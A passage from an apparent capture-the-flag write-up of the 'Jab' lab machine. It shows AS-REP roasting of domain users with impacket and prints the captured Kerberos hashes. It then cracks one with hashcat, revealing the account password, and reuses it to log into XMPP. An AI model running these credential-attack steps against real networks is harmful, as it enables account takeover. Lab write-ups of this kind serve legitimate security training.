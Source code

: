 After getting a full list of all domain users there are a few attacks we can explore. I tried to see if any of these had an empty password without success, Then i tried username is password this also gave no results. Then lastly i tried as-rep roasting with impacket to try and obtain some password hashes of users.

```bash
impacket-GetNPUsers jab.htb/ -no-pass -usersfile users.txt -format hashcat  -request -outputfile hashes.txt
```

This gave us the following three hashes.

```
$krb5asrep$23$jmontgomery@JAB.HTB:eed3c51e25cef5fa6a0f1d4914913fc3$eea8cef9876b339723612f92399f43ed61868432a200caf37593df1951d81aa3bb448a754d509d08e5ce35a2780362476a7368bc71cbbb8bb06c271f7be06a86c7b143db3db5d35dffb85a1ac976460f13330724b4be7095adedea9880d8d7eaf94fb3e3b8010c883a454b0ee871a8833dbf020ce20e3a46ab7ecb82349d94d6af8c8bb3ce0dd966bd606a8db97ed4b152d1c9de71182b2a2689013aa8f62cb1c5457601d7bec071c6bfb8c4d5bfcdb04278ab0896ceaf22b90edcaf4a7834b3dc57e6ddd3cb69eae1dc91750e26685fc29a5f82d1e1be5421e45976e8998bb4e57a
$krb5asrep$23$lbradford@JAB.HTB:50b88e43785144b7be4abdf327791b32$644a2cdb2fd17fa5a06ec1baa5a65543ec0da0fb2bf3664d8d479cb8d42a90147d73fa26c2f9e54cd11828c5c16042a4d050afe83330c3e5e7a1026e9b51c225fa41622a2b541b7023617446aff2d2674dac8d50a1eca670b966cc428b7feabee1d2682147fb36f94ccbe415a258547601c77341861009ecd1e708bb7fac211385d83380f84f5d14e0bbc01c4240be090bf2953d4ad6b87833c7d74afd9c68aca131ccc3feb477cff9efb181a266c7a29b07316150b2e62ab99e06ca62a7ac7a715f27af644c2c620195355333080c1159df110475161898d8b748b06e0e005b9bdd
$krb5asrep$23$mlowe@JAB.HTB:567ff135c1192c03ccc9e40ca212543a$63ae28aaa6412c32d8aec084135ab981d1b4c3b5e85f674fc71315b9ae63c16c7d382601f7c8aae4d9d52d94cb6f9ef51ecbf0df1e9c3d682de398e6edae722b6e67eb3bdd3b0de1b125c4136dd53711e7ac8ac1fff98b1a7675932fd74ea50ee5f0e2bea74c726afe570ee981b619a2c2c71744d65e1d452a39918f72e1fd2242fa1c6d80bc4e18ecb88f5ce532ed2d8b34997f7115368c1149425365fd977f3e9096d6ef6b2bc9937710f4a6fa59060bca9becd77cd6b222fbbe9f6a8be29cba0b2c2a853799195b68ff7308628a456350024d108b1893f66ede1b34295ea895c0
```

Next i was able to crack the password of **jmontgomery** their password was **Midnight_121**


```
hashcat -m 18200 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt -o cracked.txt
```

**cracked.txt**
```
$krb5asrep$23$jmontgomery@JAB.HTB:eed3c51e25cef5fa6a0f1d4914913fc3$eea8cef9876b339723612f92399f43ed61868432a200caf37593df1951d81aa3bb448a754d509d08e5ce35a2780362476a7368bc71cbbb8bb06c271f7be06a86c7b143db3db5d35dffb85a1ac976460f13330724b4be7095adedea9880d8d7eaf94fb3e3b8010c883a454b0ee871a8833dbf020ce20e3a46ab7ecb82349d94d6af8c8bb3ce0dd966bd606a8db97ed4b152d1c9de71182b2a2689013aa8f62cb1c5457601d7bec071c6bfb8c4d5bfcdb04278ab0896ceaf22b90edcaf4a7834b3dc57e6ddd3cb69eae1dc91750e26685fc29a5f82d1e1be5421e45976e8998bb4e57a:Midnight_121
```

So now we have access to the credentials of jmontgomery. With these credentials i was not able to do much interesting on the active directory level. We could however log back into XMPP  with these credentials and get access to a new chat named **pentest2003**
